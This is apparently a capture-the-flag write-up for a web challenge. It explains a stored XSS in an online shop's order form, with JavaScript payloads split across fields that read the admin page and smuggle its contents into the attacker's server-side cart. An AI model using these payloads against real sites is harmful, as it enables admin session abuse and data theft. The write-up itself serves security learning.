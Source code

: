 # Fedora shop (Web)

We get access to a online shop with fedoras (every hacker should wear one!):

![](page.png)

Once we add some stuff to the cart, we can submit the order and there we can see that the order initially has status `Pending approval` and after a a short while it gets changed to `Shipped`.
It seems like a textbook example for a XSS attack, so we try some injections in the fields of the order, and it turns out the "Telephone" field is not sanitized properly and can be injected with javascript.
There are, however, some problems:

1. There is a limit to how long the fields in the order can be, and the telephone field can't fit a long payload, so we have very limited number of characters we can use there.
2. The task description says that the admin is behind a firewall, and it seems that he can't make any external connections. It means that even if we can execute XSS code as admin, we can't really get the results back.


The first problem can be tackled by splitting the payload among other fields in the form and using the vulnerable field just as entry point. So there we put only:

```javascript
<script>
    window.onload=function(){
        eval(document.getElementsByTagName('td')[15].innerText);
    };
</script>
```

where the 15th `<td>` tag contains the contents of the field `other information`.
There we put:

```javascript
xhr = new XMLHttpRequest();
xhr.open('GET','/admin.php');
xhr.onreadystatechange = function() {
    if(xhr.readyState === XMLHttpRequest.DONE){
        eval(document.getElementsByTagName('td')[14].innerText);
    }
};
xhr.send();
```

This will read the contents of the `admin.php` page for us and then it will invoke the script stored in 14th `<td>` which means contents of `address` field.
By using this approach we bypass the problem of running a long script.

The other issue is how to retrieve the data back from the server since admin can't connect to any external server.

We noticed that the cart is implemented server-side, so the information about the object we put there is stored on the server and retrieved by session ID cookie.
The admin might not be able to connect to any external server, but can access the fedora shop as localhost, so we could potentially force the admin to place some things in a cart with specified session ID.

Initially we thought we will need to extract data character by character, by putting the ascii code of a single character as `quantity` of the fedoras to buy, but we noticed that there is no check if the field content is a number!
This meant we could simply put all of the contents at once with a single operation.
So the final part of the payload was:

```javascript
xhr = new XMLHttpRequest();
xhr.open('POST','/?action=add&code=wfedora',true);
xhr.withCredentials=true;
document.cookie='PHPSESSID=""" + session + """';
xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
xhr.send('quantity='+this.responseText);
```

Once we run the attack we can see in our cart:

![](cart.png)

Whole attack script [here](fedora.py)
